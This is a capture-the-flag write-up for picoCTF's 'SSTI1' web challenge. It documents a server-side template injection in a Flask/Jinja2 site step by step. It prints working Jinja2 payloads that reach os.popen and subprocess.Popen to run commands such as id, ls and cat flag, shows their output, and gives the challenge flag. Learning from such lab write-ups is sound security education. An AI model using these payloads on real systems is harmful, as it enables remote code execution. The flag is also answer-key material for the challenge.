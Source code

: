 ###SSTI1###

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>
<summary> CONTINUE - SPOILERS </summary>
Directly changing your URL to this announce page doesn't yield results:
  
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.

![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, i thought it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application based searching the error text in Google.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)
"The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."

Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}
Returns: <class 'object'>

Sending: {{g.__class__.__mro__}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: {{g.__class__.mro()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['mro']()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['__mro__']}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: {{get_flashed_messages}}
Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: {{get_flashed_messages.__class__}}
Returns: <class 'function'>

Sending: {{get_flashed_messages.__class__.__mro__}}
Returns: (<class 'function'>, <class 'object'>)

Sending: {{get_flashed_messages.__class__.__mro__[1]}}
Returns: <class 'object'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
Returns: This returns all the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: {{g}}
Returns: <flask.g of 'app'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}
Returns: <class 'mappingproxy'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}
Returns: /etc/passwd

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: {{app.__class__}}
Returns: <class 'jinja2.runtime.Undefined'>

Sending: {{app.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: {{app.__class__.__mro__[1].__subclasses__()}}, I received all the subclasses again, This time I put this into my IDE and replaced all commas with newlines to better visualise this set.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen by specifying the above string which I will shorten to PAY1
{{app.__class__.__mro__[1].__subclasses__()[356]}} = PAY1

PAY1(<args>, stdout=-1).communicate()[0].decode()

if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}
Returns:
total 12
drwxr-xr-x 1 root root    25 Apr 13 03:37 .
drwxr-xr-x 1 root root    23 Apr 13 03:37 ..
drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__
-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root    58 Mar  6 19:43 flag
-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt

Seems like we found a flag file, lets check out what the requirements.txt are first.
Seems like the decode() function was throwing an error, removing this and converting this separately in python allowed us to see the following:

ÿþblinker==1.8.2
click==8.1.7
colorama==0.4.6
Flask==3.0.3
itsdangerous==2.2.0
Jinja2==3.1.4
MarkupSafe==2.1.5
Werkzeug==3.0.3

Seems like just details for the application to run, maybe a docker thing?

Anyways, lets cat the flag with:
{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}

Whoopee!

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>



